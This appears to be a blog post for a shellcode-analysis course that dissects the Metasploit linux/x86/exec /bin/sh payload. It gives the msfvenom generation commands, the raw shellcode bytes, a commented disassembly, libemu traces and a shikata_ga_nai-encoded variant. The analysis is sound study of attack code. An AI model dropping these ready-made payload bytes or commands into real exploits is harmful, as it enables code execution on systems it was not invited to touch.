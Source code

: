 ```yaml
---
layout: post
title:  "SLAE Assignment 5.1 - Msfvenom linux/x86/exec shellcode analysis"
date:   2017-04-24
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 5.1:  
    
**Our Goal:**  
> *Take up at least 3 linux/x86 shellcodes using Msfpayload (now Msfvenom)*
 - *Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode*
 - *Present your analysis*  
  
Hello everybody,  
  
Here we are for the analysis of three Msfvenom shellcodes for the platform linux/x86. Let's start with the **linux/x86/exec** shellcode with the command **/bin/sh**:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f c
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes
Final size of c file: 205 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```
  
Let's disassemble the shellcode:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 43 bytes

00000000  6A0B        push byte +0xb
00000002  58          pop eax
00000003  99          cdq
00000004  52          push edx
00000005  66682D63    push word 0x632d
00000009  89E7        mov edi,esp
0000000B  682F736800  push dword 0x68732f
00000010  682F62696E  push dword 0x6e69622f
00000015  89E3        mov ebx,esp
00000017  52          push edx
00000018  E808000000  call dword 0x25
0000001D  2F          das
0000001E  62696E      bound ebp,[ecx+0x6e]
00000021  2F          das
00000022  7368        jnc 0x8c
00000024  005753      add [edi+0x53],dl
00000027  89E1        mov ecx,esp
00000029  CD80        int 0x80
```
  
Let's have a look with libemu:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | sctest -vvv -S -s 10000 -G exec_sh.dot && dot exec_sh.dot -Tpng -o exec_sh.png
```
![exec_sh]({{ site.url }}/public/images/slae/assignment5/exec_sh.png)  
  
Clearly we can see that we will make an execve syscall: ``` #define __NR_execve 11 ```.  
  
```c
int execve(const char *filename, char *const argv[], char *const envp[]);
```
  
So let's comment our shellcode instructions:  
```nasm
    push byte +0xb          ; syscall execve 12
    pop eax                 ; syscall number in eax
    cdq                     ; clears out edx thanks to eax sign extension
    push edx                ; push 0 or null byte to end the following string
    push word 0x632d        ; "-c"
    mov edi,esp             ; edi stores the @ of "-c"
    push dword 0x68732f     ; "/sh"
    push dword 0x6e69622f   ; "/bin"
    mov ebx,esp             ; ebx is the first arg of execve "/bin/sh"
    push edx                ; null byte
    call dword 0x25         ; push the address of the following string on the stack (and jmp to push edi)
    das                     ; the following instructions are meaningless because the bytes are corresponding
    bound ebp,[ecx+0x6e]    ; to the string "/bin/sh -c /bin/sh" for argv[]
    das
    jnc 0x8c
    add [edi+0x53],dl
    mov ecx,esp             ; setting @ for argv
    int 0x80                ; syscall
```
  
In order to explain the meaningless intructions after the call instruction:  
```bash
# echo -ne \\x2F\\x62\\x69\\x6E\\x2F\\x73\\x68
/bin/sh
# echo -ne \\x57\\x53 | ndisasm -u -
00000000  57                push edi
00000001  53                push ebx
```
  
EDI points to the string *"-c"*, EBX points to the string *"/bin/sh"*. So finally argv[] will have the following arguments:  
 - argv[0]: address of "/bin/sh"
 - argv[1]: address of "-c"
 - argv[2]: address of "/bin/sh"
  
It can be confirm thanks to libemu:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw | sctest -vvv -S -s 10000
...
int execve (
     const char * dateiname = 0x00416fc0 => 
           = "/bin/sh";
     const char * argv[] = [
           = 0x00416fb0 => 
               = 0x00416fc0 => 
                   = "/bin/sh";
           = 0x00416fb4 => 
               = 0x00416fc8 => 
                   = "-c";
           = 0x00416fb8 => 
               = 0x0041701d => 
                   = "/bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
...
```
  
However we can can see some null bytes in our shellcode. Let's have a look to a shellcode without null bytes:  
```bash
# msfvenom -p linux/x86/exec CMD=/bin/sh -f raw -b \x00 | ndisasm -u -
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes

00000000  DDC5              ffree st5
00000002  D97424F4          fnstenv [esp-0xc]
00000006  58                pop eax
00000007  BE2E1FB4CF        mov esi,0xcfb41f2e
0000000C  33C9              xor ecx,ecx
0000000E  B10B              mov cl,0xb
00000010  31701A            xor [eax+0x1a],esi
00000013  03701A            add esi,[eax+0x1a]
00000016  83C004            add eax,byte +0x4
00000019  E2DB              loop 0xfffffff6
0000001B  75BF              jnz 0xffffffdc
0000001D  97                xchg eax,edi
0000001E  BAD8D94F91        mov edx,0x914fd9d8
00000023  BFAC778110        mov edi,0x108177ac
00000028  DC1F              fcomp qword [edi]
0000002A  51                push ecx
0000002B  07                pop es
0000002C  0D8238B9D8        or eax,0xd8b93882
00000031  A1E8ADD325        mov eax,[0x25d3ade8]
00000036  0C2E              or al,0x2e
00000038  CB                retf
00000039  47                inc edi
0000003A  6540              gs inc eax
0000003C  3CFB              cmp al,0xfb
0000003E  1D9C15A854        sbb eax,0x54a8159c
00000043  7D54              jnl 0x99
00000045  CE                into
```  
  
Now we can see that the shellcode is a slightly more complex because of the shikata_ga_nai encoding routine useful to avoid null bytes.  
  
Hope you enjoyed this post, see you soon for the second msf shellcode analysis.  
  
[Phackt](https://twitter.com/phackt_ul)